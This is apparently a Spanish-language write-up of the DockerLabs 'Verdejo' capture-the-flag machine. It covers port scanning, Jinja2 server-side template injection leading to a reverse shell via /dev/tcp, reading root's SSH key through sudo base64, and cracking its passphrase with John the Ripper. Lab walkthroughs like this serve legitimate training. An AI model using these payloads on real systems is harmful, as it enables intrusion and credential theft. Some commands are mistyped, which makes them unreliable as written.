 # [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30e4a4c2-66ec-4fc4-b850-c5ed66365f4d)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener éxito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo siguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un montón de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bcd2caeb-371c-4878-8b66-09a1c52599d8)

<br>

Por lo que ahora nos mandaríamos una revshell. Este parte se puede hacer de muchas formas. <br>
Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y después en el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

Es importante escapar las comillas simples ya que si no nos dará error.
<br>

Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4e8a35d2-6b8c-496f-a88b-d53638c9a03e)

<br>
<br>

## Escalada de Privilegios

Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` vemos
que es posible ejecutar base64 como root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bf198297-b8dd-4df1-947c-bc992e8b1dca)

<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos probar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizaríamos la **id_rsa** del root y nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphrase la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphrase, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1c2569dd-4f3a-435f-a99e-6ab421bbbb89)

<br>

Una vez que conocemos la passphrase probamos a autenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y después introducimos la passphrase y listo ya somos root!

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3ff97e38-6c17-4410-a79e-016f9fe3c597)

